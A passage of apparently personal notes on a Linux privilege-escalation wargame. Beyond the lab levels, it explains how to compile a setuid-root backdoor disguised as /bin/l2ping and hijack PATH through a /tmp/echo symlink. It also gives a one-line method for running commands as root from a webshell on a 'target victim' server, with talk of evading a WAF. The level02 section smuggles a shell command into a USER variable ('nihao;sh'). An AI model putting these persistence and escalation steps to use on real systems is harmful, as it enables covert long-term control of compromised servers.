         	system("/usr/bin/env echo && echo runtime error.");
        }
        ------------end------------------------

        that is change the final system sentence from "system("/usr/bin/env echo and now what?");" to "system("/usr/bin/env echo && echo runtime error.");",and this could be a "works well backdoor" when get a root shell in a system:
        to use this file.c as a root shell backdoor after got a root shell,
        use root role execute:
            gcc -o 1 file.c
            mv 1 /bin/l2ping
            chmod 4755 /bin/l2ping(or in common user: sudo chown root /bin/l2ping;sudo chmod +s /bin/l2ping)
        use webshell role execute:
            PATH=/tmp:$PATH
            export PATH
            echo $PATH(to check if /tmp is in $PATH)
            ln -s /bin/sh /tmp/echo
            or:PATH=/tmp:$PATH;export PATH;echo $PATH;ln -s /bin/sh /tmp/echo
            (later I found this will not get root shell,coz a new terminal shell created[/tmp/echo-->/bin/sh] by upon way will not display in webshells' terminal)
        then use webshell role to get a root privilege shell:
            /bin/l2ping
        
        both source.c and file.c can be a root privilege backdoor shell,the difference between source.c and file.c is:
        by source.c we should execute "chmod +x /tmp/echo"
        by file.c we should execute "ln -s /bin/sh /tmp/echo"

        *attention*:
        when I tried to keep root privilege in webshell,and conveniently execute commands in webshell but with root privilege(so I don't have to use reGeorg and proxycap and putty and upon two kinds of backdoor to connect target victim pc and execute commands with root shell,these actions are too slow to control target server),I tried to use root privilege to execute:
            chmod 4755 /..../..../webshell.php(eg.b374kshell)
            browser visit-->https://xxx/xxx/xxx/webshell.php --->  terminal:
            id
            out:auid=48(apache) gid=48(apache) groups=48(apache)
        later I realized a webshell.php file with setuid=root will not execute as root privilege,coz only executable files like elf,*.sh files will execute as root privilege,*.php file is not in the scope,so my webshell's terminal will has apache's privilege,not root,I could chmod 4755 apache to get root privilege in webshell.php,but it's not wise.

        !!!cool thing:   
        one sentence to keep root shell in webshell(strong webshell better,like b374k,chopper may be stopped to execute a normal command when there exists some waf),use webshell's terminal function to execute:
            PATH=/tmp:$PATH;export PATH;echo $PATH;/bin/echo "whoami" > /tmp/.out;rm /tmp/echo;ln -s /tmp/.out /tmp/echo;chmod +x /tmp/.out;/bin/l2ping > /tmp/.out1;cat /tmp/.out1;rm /tmp/.out1
        this means with role apache's privilege to execute a program(a file with setuid=root),but it will has root privilege to execute commands,change "whoami" to any commond is ok to execute as root privilege.

#### 0x02 level02
    mykey:
        su - level02
        pass:level02
        USER="nihao;sh"
        ./flag02
        getflag
